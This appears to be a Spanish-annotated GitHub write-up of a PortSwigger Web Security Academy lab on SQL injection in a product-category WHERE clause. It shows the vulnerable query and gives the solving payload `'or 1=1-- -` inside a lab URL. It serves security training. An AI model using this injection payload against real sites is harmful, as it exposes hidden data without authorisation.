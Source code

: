 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## 

Descripción:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0b35f1ca-3c73-4837-a0f8-b5be87e084bf)


## Solución:

1. Abrir laboratorio

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a56c4773-50c8-41b7-82b7-94631079ad1c)

2. Si filtro puedo empezar a ver el query desde la URL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4349813d-9f17-4542-9695-ed2d23113a01)

3. Query que usé

````sql
'or 1=1-- -
````
````http
https://0adf002604af55028177ed87004400b4.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/22e3492e-a7c7-4573-a966-73830aa681fe)



